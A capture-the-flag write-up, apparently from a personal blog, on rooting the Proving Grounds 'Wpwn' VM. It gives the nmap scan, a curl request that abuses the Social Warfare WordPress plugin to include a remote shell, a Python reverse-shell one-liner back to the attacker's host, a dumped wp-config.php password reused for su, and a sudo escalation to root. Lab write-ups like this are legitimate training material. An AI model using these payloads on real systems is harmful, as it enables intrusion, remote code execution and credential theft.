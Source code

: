 ```yaml
---
title: Wpwn
categories: [Proving Grounds, Play]
tags: [PrivEsc, RFI, Wordpress]
image:
  path: /assets/images/wppwn.png
  alt:  Wpwn Machine 🖥️
---
```



### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled.png)

```bash
IP : 192.168.249.141
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/wpwn]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.141
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-26 03:32 EDT
Stats: 0:00:09 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for 192.168.249.141
Host is up (0.00073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59b7dbe0ba6376afd0200311e13c0e34 (RSA)
|   256 2e20567584ca35cee36a21321fe7f59a (ECDSA)
|_  256 0d02838b1a1cec0fae74cc7bda12899e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site does not have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:E5:DB:C0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%201.png)

Now I found wordpress in this site so lets dig into it with `wpscan tool` →

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%202.png)

Now I found an exploit related to social warfare on github →

[https://github.com/shad0w008/social-warfare-RCE](https://github.com/shad0w008/social-warfare-RCE)

I Followed this path and got this →

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%203.png)

When I loaded this url →

```bash
curl http://192.168.249.141/wordpress/wp-admin/admin-post.php?rce=id&swp_debug=load_options&swp_url=http://192.168.249.128:8888/rcshell.php
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%204.png)

as I got the value of id so lets use this LFI to get a local privilege Escalation →

 I used python reverse shell command →

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.249.128",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Wpwn/Untitled%205.png)

Lets see wp-config.php file →

```bash
www-data@wpwn:/var/www/html/wordpress$ cat wp-config.php
cat wp-config.php                                                                                                              
<?php                                                                                                                          
/**                                                                                                                            
 * The base configuration for WordPress                                                                                        
 *                                                                                                                             
 * The wp-config.php creation script uses this file during the                                                                 
 * installation. You do not have to use the web site, you can                                                                   
 * copy this file to "wp-config.php" and fill in the values.                                                                   
 *                                                                                                                             
 * This file contains the following configurations:                                                                            
 *                                                                                                                             
 * * MySQL settings                                                                                                            
 * * Secret keys                                                                                                               
 * * Database table prefix                                                                                                     
 * * ABSPATH                                                                                                                   
 *                                                                                                                             
 * @link https://wordpress.org/support/article/editing-wp-config-php/                                                          
 *                                                                                                                             
 * @package WordPress                                                                                                          
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress_db' );

/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Do not change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 ...

www-data@wpwn:/var/www/html/wordpress$ cd /home
cd /home
www-data@wpwn:/home$ ls
ls
takis
www-data@wpwn:/home$ cd takis
cd takis
www-data@wpwn:/home/takis$ ls -al
ls -al
total 32
drwxr-xr-x 3 takis takis 4096 Aug 17  2020 .
drwxr-xr-x 3 root  root  4096 Aug 17  2020 ..
-rw------- 1 takis takis   59 Aug 17  2020 .bash_history
-rw-r--r-- 1 takis takis  220 Aug 17  2020 .bash_logout
-rw-r--r-- 1 takis takis 3526 Aug 17  2020 .bashrc
drwxr-xr-x 3 takis takis 4096 Aug 17  2020 .local
-rw-r--r-- 1 takis takis  807 Aug 17  2020 .profile
-rw-r--r-- 1 root  root    33 Aug 17  2020 user.txt
www-data@wpwn:/home/takis$ cat user.txt 
cat user.txt
04ebbbf5e6e298e8fab6deb92deb3a7f
www-data@wpwn:/home/takis$
```
{: .nolineno}

Now lets use that password and try to get the takis shell →

```bash
www-data@wpwn:/home/takis$ su takis
su takis
Password: R3&]vzhHmMn9,:-5
/bin/bash -i
bash: cannot set terminal process group (556): Inappropriate ioctl for device
bash: no job control in this shell
takis@wpwn:~$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
takis@wpwn:~$
```
{: .nolineno}

Now lets see what takis can do to lead us to root →

```bash
takis@wpwn:~$ sudo -l
sudo -l
Matching Defaults entries for takis on wpwn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User takis may run the following commands on wpwn:
    (ALL) NOPASSWD: ALL
takis@wpwn:~$ sudo /bin/bash -i
sudo /bin/bash -i
root@wpwn:/home/takis# cd /root
cd /root
root@wpwn:~# whoami
whoami
root
root@wpwn:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@wpwn:~# ls -al
ls -al
total 32
drwx------  3 root root 4096 Aug 17  2020 .
drwxr-xr-x 18 root root 4096 Aug 17  2020 ..
-rw-------  1 root root 1812 Aug 17  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Aug 17  2020 .local
-rw-------  1 root root  215 Aug 17  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   87 Aug 17  2020 root.txt
root@wpwn:~# cat root.txt
cat root.txt
damn, i really do not know where i left the root.txt flag, take a look into my USB plz.
root@wpwn:~#
```
{: .nolineno}

I found the USB from the `.bash _history` →

```bash
root@wpwn:/usr/games/USB# ls
ls
root
root@wpwn:/usr/games/USB# cat root
cat root
19905b045801f04e96d803659ad987ce

-gamer over
root@wpwn:/usr/games/USB#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }